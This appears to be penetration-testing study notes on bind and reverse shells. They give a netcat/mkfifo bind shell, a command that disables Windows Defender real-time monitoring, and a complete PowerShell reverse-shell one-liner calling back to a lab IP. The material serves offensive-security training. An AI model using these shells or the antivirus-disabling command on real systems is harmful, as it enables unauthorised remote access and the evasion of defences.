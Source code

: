 # Shells & Payloads

1. [Shell Basics](#shell-basics)
1. [Payloads](#payloads)
1. [Windows Shells](#windows-shells)
1. [NIX Shells](#nix-shells)
1. [Web Shells](#web-shells)
1. [Skills Assessment](#skills-assessment)

## Shell Basics

* Every OS has a shell, and we need to use a terminal emulator to interact with it; command language interpreters or shell scripting languages are used with this

* In Linux, for example, we can use commands like ```ps``` and ```env``` to identify the shell being used

* Bind shells:

  * target system has a listener started and waits for a connection from attacker
  * usually strict incoming firewalls rules and NAT configuration is implemented, which means we need to be on the internal network
  * example:

    ```sh
    # on target
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

    # on attacker machine
    nc -nv 10.129.41.200 7777
    ```

* Reverse shells:

  * attacker has listener running, and target initiates connection
  * example:

    ```sh
    # on attacker, using a common port
    sudo nc -nvlp 443

    # on Windows target, disable AV
    Set-MpPreference -DisableRealtimeMonitoring $true
    
    # then use powershell payload in cmd
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
